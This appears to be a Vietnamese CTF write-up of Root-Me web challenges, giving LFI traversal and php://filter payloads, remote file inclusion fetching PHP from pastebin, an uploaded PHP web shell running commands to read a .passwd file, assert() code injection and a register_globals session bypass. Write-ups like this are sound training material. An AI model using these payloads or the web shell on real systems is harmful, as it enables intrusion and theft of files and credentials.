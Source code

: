 ### Local File Inclusion
![image](https://user-images.githubusercontent.com/77602549/164174516-0f929bb8-5a10-4fdc-8b86-d54a5687dc73.png)


![image](https://user-images.githubusercontent.com/77602549/164175580-fb16a8e5-ccde-49c6-9efc-9dddf4473bd8.png)

Vậy thư mục admin nằm ngay trong thư mục root.
Ta phải lấy được source code của file index.php

Chúng ta thử dần các payload sau:
  
  + ?files=sysadm&f=/admin/index.php cái này khỏi thử, không có chuyện admin nằm trong đây đâu
  + ?files=sysadm&f=../index.php cái này khỏi thử, nếu admin nằm ngoài đây thì sysadm sẽ thành web-serveur/ch16/admin/sysadm/ rồi, nhưng cũng đáng thử, để biết chall có chặn .. không
  + ?files=sysadm&f=../admin/index.php lỗi file_get_contents(): Filename cannot be empty
  + ?files=sysadm&f=../../admin/index.php di chuyển ra thêm một thư mục nữa -BOOM- ta được source code của file index

![image](https://user-images.githubusercontent.com/77602549/164176305-bc555b84-c24b-4c7d-8c1d-e216cb9ed005.png)





## Local File Inclusion - Double encoding

![image](https://user-images.githubusercontent.com/77602549/164176760-d250d227-f597-4e7c-912a-d9c945de213f.png)


We will use php://filter with base64 encoding

php://filter/convert.base64-encode/resource=cv

after double encoding

php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv




http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf


![image](https://user-images.githubusercontent.com/77602549/164178518-8fb1d70b-6565-4528-8787-7cbd74f7fb66.png)



## Local File Inclusion - Wrappers

![image](https://user-images.githubusercontent.com/77602549/164179748-a96d3d97-6d31-40f9-af6c-74999959a7ec.png)


![image](https://user-images.githubusercontent.com/77602549/164187956-623d7d22-ac08-4ac2-900a-33fab04896fe.png)



<?php $data = file_get_contents(“index.php”); echo $data; ?>


https://vietjack.com/php/ham_scandir_trong_php.jsp



![image](https://user-images.githubusercontent.com/77602549/164188168-fa5d727f-740a-4cab-81c6-33df0d0a3d09.png)



name too long
![image](https://user-images.githubusercontent.com/77602549/164188972-82a3d7f6-414d-42d3-b66a-591f08f132bc.png)

```
<?php 
   $path = getcwd();
   $items = scandir($path);
   
   echo "<p>Content of $path</p>";
   echo '<ul>';
   foreach ($items as $item) {
       echo '<li>' . $item . '</li>';
   }
   echo '</ul>';  
?>

```

![image](https://user-images.githubusercontent.com/77602549/164195162-1aafd712-1969-40f5-9b04-0de766c9ccaf.png)



![image](https://user-images.githubusercontent.com/77602549/164193342-b6c70f3b-fbed-44e0-9f25-295b4e399444.png)


```
<?php
   show_source('flag-mipkBswUppqwXlq9ZydO.php'); 
?>
```
## Remote File Inclusion



ĐIỀU QUAN TRỌNG VỚI DẠNG BÀI REMOTE FILE INCLUSION NÀY , TA PHẢI INCLUDE 1 FILE TỪ WEB SERVER KHÁC !

![image](https://user-images.githubusercontent.com/77602549/164913369-8c5bb10e-4b20-4d0f-94b6-c4971bb94b8f.png)


Dùng 1 server khác để get tham số là câu lệnh <?php echo file_get_contents ('index.php')?>

Mình sẽ đề xuất sử dụng https://pastebin.com/ vì nó khá là tiện 


?lang=https://pastebin.com/raw/LjpyDxwq?

Chúng ta có thể thấy được source của file index.php như sau: 


![image](https://user-images.githubusercontent.com/77602549/164913436-ad52a7cf-d6ec-4717-ba67-3a515c17e02e.png)




## HTTP - Directory indexing

![image](https://user-images.githubusercontent.com/77602549/164369902-07dcd33e-d61f-4803-ab1a-8bb4d676ee70.png)



![image](https://user-images.githubusercontent.com/77602549/164369994-0717f0f4-9d35-4d32-896d-e20f1ec686ec.png)



![image](https://user-images.githubusercontent.com/77602549/164369921-1623f8fd-d2b4-4ad5-aed4-0ef04884f0c9.png)



## File upload - Double extensions

![image](https://user-images.githubusercontent.com/77602549/164371548-8de896ab-5b5a-417e-88b2-161fa7313293.png)


<?php

$data = system($_GET["cmd"]);
echo $data;

?>

![image](https://user-images.githubusercontent.com/77602549/164960644-b3a34d8c-6c4d-49db-afef-ee43889d87ab.png)


![image](https://user-images.githubusercontent.com/77602549/164960537-34859513-220c-40d9-ac16-164c956ae834.png)



?cmd=ls -la


![image](https://user-images.githubusercontent.com/77602549/164960705-8ba8b453-9ac8-4368-a798-a2b3c1d47d97.png)


?cmd=ls -la?cmd=cat ../../../.passwd


![image](https://user-images.githubusercontent.com/77602549/164960719-3c6f6c01-c6e1-4f1b-9e35-59178a2cd8be.png)


## File upload – MIME type

![image](https://user-images.githubusercontent.com/77602549/164523876-fdd1951d-9f97-4e9e-b4d3-604da8d6cda5.png)
[Mine type](https://wiki.tino.org/mime-type-la-gi/)

![image](https://user-images.githubusercontent.com/77602549/164966150-7ea79496-ffd0-4ef9-b6c8-53c0a297d1d5.png)


Chổ Content-type nó sẽ định nghĩa kiểu dữ liệu mà bạn sẽ upload lên, thay thành image/png nó sẽ hiểu đó là ảnh chứ không phải php file.

![image](https://user-images.githubusercontent.com/77602549/164966176-4c78ae19-2485-4107-8e98-2dd98b1fc94a.png)


?cmd=cat ../../../.passwd


![image](https://user-images.githubusercontent.com/77602549/164966203-5d38b61b-fa6a-4290-addd-827707167cd1.png)







## Directory traversal

![image](https://user-images.githubusercontent.com/77602549/164531455-7057e609-5ac9-4234-ac38-7b845bd97dcf.png)



![image](https://user-images.githubusercontent.com/77602549/164531414-7525dd8f-ad9d-4613-a76b-8889f2b4b565.png)




## PHP - assert()
![image](https://user-images.githubusercontent.com/77602549/164538756-974ad560-7375-403e-927e-553ec78cc2b4.png)


Assert() được dùng giống như else trong điều kiện if vậy, thường được dùng để debug:

$a = 1; 
assert($a === 1, '$a is not 1'); 
assert($a === 2, '$a is not 1');
Sau vài lần thử thì nhận ra đây là dạng code injection. Template của nó:

$i = "includes/" .$_GET['page'];
$i .= ".php";
assert(strpos($i, '..') === False, 'Detect hacking');


![image](https://user-images.githubusercontent.com/77602549/164540257-9693a9cf-a390-4f01-b3c6-8a116e84374e.png)



![image](https://user-images.githubusercontent.com/77602549/164540226-f9cc7e33-d0b1-43c8-820e-dfc33750dc17.png)


## PHP - Filters


Bài này cho thấy impact của PHP streams, cụ thể là filter wrapper, là một trong những dạng LFI, đáng nhẽ phải giải bài này trước thì bài Local File Inclusion – Double encoding này mình đã không phải đi kiếm lời giải. Thử dần các trang dưới, output là dạng base64:

inc=php://filter/convert.base64-encode/resource=accueil.php
inc=php://filter/convert.base64-encode/resource=login.php
inc=php://filter/convert.base64-encode/resource=config.php
inc=php://filter/convert.base64-encode/resource=index.php
inc=php://filter/convert.base64-encode/resource=ch12.php
Với trang login.php, sau khi decode base64 thì ta tìm được trang config.php. Flag nằm trong đây:

$username="admin";
$password="DAPt9D2mky0APAF";



## PHP - register globals

Sau vài lần thử thì với biến _SESSION, ta thấy xuất hiện lỗi

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION=qwerty1234567890
Warning: Illegal string offset 'logged' in /challenge/web-serveur/ch17/index.php on line 11
Vậy ta biết phần tử trong biến _SESSION là logged, ta thử link dưới rồi bấm enter mà không cần nhập password vào

http://challenge01.root-me.org/web-serveur/ch17/?_SESSION.logged=1 # FAIL, PHP ko set như vầy
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1






